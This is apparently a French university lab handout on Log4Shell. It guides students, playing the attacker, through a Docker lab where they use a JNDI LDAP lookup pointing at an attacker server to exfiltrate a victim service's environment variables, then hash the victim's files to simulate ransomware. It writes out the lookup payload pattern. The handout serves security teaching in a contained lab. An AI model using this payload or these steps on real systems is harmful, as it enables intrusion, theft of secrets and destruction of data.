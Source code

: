 # TP Log4Shell 
#### Victor GAILLARD - Lou LABUSSIERE - Erina POINT - Ugo VIGNON
#### Envoyez votre compte-rendu à l'adresse lou.labussiere@etu.uca.fr
---
## **Objectif** : Hasher les fichiers d'un serveur victime pour simuler une attaque ransomware avec la faille Log4Shell

### **Configuration** :
 Pour commencer, clonez le projet suivant (ou téléchargez l'archive): [tp_log4shell](??).  

 Dans ce projet, vous trouverez : 
- Le serveur LDAP du pirate;
- Le serveur HTTP du pirate, contenant la codebase que vous aurez à coder;
- Un service de logging sur lequel vous pourrez requêter afin de récuperer des données;
- Le web service de la victime, qui contient les fichiers à hasher; 

Pour lancer le projet :
- Faite un `make all` pour générer tous les Dockerfile;
- Ensuite, faite un `docker-compose up` dans le répertoire cloné;

L'IP du serveur victime et des serveurs du pirate sont loggés avec ces lignes :
```sh
victim_1 | Running on IP : XXX.XXX
server_1 | Running on IP : XXX.XXX
```
 L'IP `server_1` sera à mettre dans le lookup plus tard.

 a tester
 Si vous ajoutez une classe dans le dossier attacker/java, pensez à relancer vos containers !

---

### **Exercice 0** : Pour se mettre dans le bain
 Pour le temps de ce TP, vous serez le pirate >:) Vous allez donc réaliser une attaque exploitant la faille de Log4Shell sur un web service distant, dans le but de hasher les fichiers de la victime pour simuler un ransomware. 

Après plusieurs essais sur différents sites (en vain), vous tomber finalement sur ce site aux apparences plutôt vulnérables. Le formulaire de connexion n'a pas l'air très sécurisé...

 Avant toute chose, vous allez tester le fonctionnement de cette attaque en affichant dans les logs les valeurs des variables d'environnements de la victime.

Pour cela, vous allez devoir : 
- Créer une classe dans le dossier `attacker/java`. Cette classe devra récupérer les valeurs des variables d'environnements du web service victime, et les logger dans le service `logger_1`. Pour vous aider, consultez l'exemple `WithReturn.java`.

- Utilisez le lookup vu en cours pour lancer votre attaque. Exemple : `${jndi:ldap://<ip_server_1>:<port>/WithReturn}`. 

Pour vérifier que votre attaque a bien marchée, vérifier dans les logs de `logger_1` que les variables d'environnments de la vicitme sont bien affichées après l'envoie de votre requête.

---

### **Exercice 1** : L'attaque, la vraie de vraie
Maintenant que vous avez réussi à afficher les variables d'environnements de votre victime, vous allez pouvoir hasher ses fichiers (mouhaha) !! 

Pour ce faire, vous allez devoir recréer une classe qui va cette fois récupérer les fichiers du serveur de la victime, et les hasher avec l'algorithme SHA-256.

Pour vous aidez:
- la classe `MessageDigest` permet de faire su hashage, plus qu'à savoir comment...
- N'oubliez pas de modifier votre lookup en fonction de votre nouvelle classe ;p

Pour vérifier que cette attaque a bien marché, vous devriez voir que tous les fichiers du web service de la victime ont été hashés. Si c'est le cas, bravo vous êtes un pirate !! 